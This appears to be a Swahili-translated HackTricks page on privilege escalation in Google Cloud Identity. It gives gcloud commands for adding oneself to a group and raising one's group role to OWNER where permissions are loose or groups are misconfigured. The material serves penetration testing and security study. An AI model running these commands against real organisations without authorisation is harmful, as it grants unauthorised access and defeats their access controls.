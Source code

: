 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

Kwa maelezo zaidi kuhusu huduma ya cloudidentity, angalia ukurasa huu:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Jiongeze kwenye kundi

Ikiwa mtumiaji wako ana ruhusa za kutosha au kundi limewekwa vibaya, anaweza kuwa na uwezo wa kujifanya kuwa mwanachama wa kundi jipya:
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### Badilisha uanachama wa kikundi

Ikiwa mtumiaji wako ana ruhusa za kutosha au kikundi kimewekwa vibaya, anaweza kuwa na uwezo wa kujifanya MMILIKI wa kikundi ambacho ni mwanachama wake:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
